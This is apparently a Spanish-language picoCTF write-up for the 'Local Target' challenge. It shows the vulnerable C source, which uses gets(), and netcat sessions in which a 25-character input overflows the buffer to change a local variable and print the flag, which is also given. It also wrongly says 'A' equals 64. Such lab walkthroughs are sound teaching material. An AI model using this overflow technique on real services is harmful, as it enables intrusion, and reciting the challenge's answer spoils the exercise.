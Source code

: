 # Local Target



## Descripción
Smash the stack
Additional details will be available after launching your challenge instance.

Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/518/local-target). You can view source [here](https://artifacts.picoctf.net/c/518/local-target.c). And connect with it using: `nc saturn.picoctf.net 51966`

## Solución

- Vemos lo que contiene el archivo .c
-  Para encontrar la bandera el numero tiene que ser 65. A = 64.
- Con 25 'A' obtenemos la bandera:
``` bash
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ ls
local-target  local-target.c
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ cat local-target.c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ nc saturn.picoctf.net 51966
Enter a string: A

num is 64
Bye!
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ nc saturn.picoctf.net 51966
Enter a string: AAAAA

num is 64
Bye!
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ nc saturn.picoctf.net 51966
Enter a string: AAAAAAAAAAAAAAA

num is 64
Bye!
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ nc saturn.picoctf.net 51966
Enter a string: AAAAAAAAAAAAAAAAAAAAAA

num is 64
Bye!
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ nc saturn.picoctf.net 51966
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
                                                                                                                                                           
┌──(kali㉿kali)-[~/Descargas/3P]
└─$ 


``` 

## Bandera 
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}

